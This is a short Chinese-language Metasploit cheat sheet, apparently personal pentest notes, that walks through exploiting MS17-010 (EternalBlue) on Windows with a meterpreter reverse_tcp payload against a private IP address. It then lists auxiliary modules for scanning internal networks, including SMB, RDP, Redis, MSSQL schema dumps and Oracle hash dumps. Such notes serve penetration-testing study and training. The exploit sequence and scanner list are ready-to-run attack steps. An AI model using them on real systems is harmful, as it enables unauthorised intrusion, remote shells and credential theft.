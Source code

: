#Metasploit
---
进入框架：msfconsole

    使用search命令查找相关漏洞： search  ms17-010

    使用use进入模块:  use exploit/windows/smb/ms17_010_eternalblue

    使用info查看模块信息： info

    设置攻击载荷：set payload windows/x64/meterpreter/reverse_tcp

    查看模块需要配置的参数：show options

    设置参数：set  RHOST  192.168.125.138

    攻击：exploit /  run

    后渗透阶段
    
exploit漏洞利用模块路径：/usr/share/metasploit-framework/modules/exploits

payload模块路径：/usr/share/metasploit-framework/modules/payloads

search scanner type:auxiliary 搜索

auxiliary/scanner/ftp/ftp_version        #发现内网ftp服务，基于默认21端口

auxiliary/scanner/ssh/ssh_version        #发现内网ssh服务，基于默认22端口

auxiliary/scanner/telnet/telnet_version  #发现内网telnet服务，基于默认23端口

auxiliary/scanner/dns/dns_amp            #发现dns服务，基于默认53端口

auxiliary/scanner/http/http_version      #发现内网http服务，基于默认80端口

auxiliary/scanner/http/title             #探测内网http服务的标题

auxiliary/scanner/smb/smb_version        #发现内网smb服务，基于默认的445端口

use auxiliary/scanner/mssql/mssql_schemadump  #发现内网SQLServer服务,基于默认的1433端口

use auxiliary/scanner/oracle/oracle_hashdump  #发现内网oracle服务,基于默认的1521端口 

auxiliary/scanner/mysql/mysql_version    #发现内网mysql服务，基于默认3306端口

auxiliary/scanner/rdp/rdp_scanner        #发现内网RDP远程桌面服务，基于默认3389端口

auxiliary/scanner/redis/redis_server     #发现内网Redis服务，基于默认6379端口

auxiliary/scanner/db2/db2_version        #探测内网的db2服务，基于默认的50000端口

auxiliary/scanner/netbios/nbname         #探测内网主机的netbios名字

auxiliary/scanner/portscan/tcp           #基于tcp进行端口扫描(1-10000)

auxiliary/scanner/portscan/syn           #基于syn进行端口扫描

auxiliary/scanner/portscan/ack           #基于tcp的ack回复进行端口扫描，默认扫描1-10000端口

search -S auxiliary ssh
Metasploit扫描

msf > nmap -v -sV 192.168.1.111　
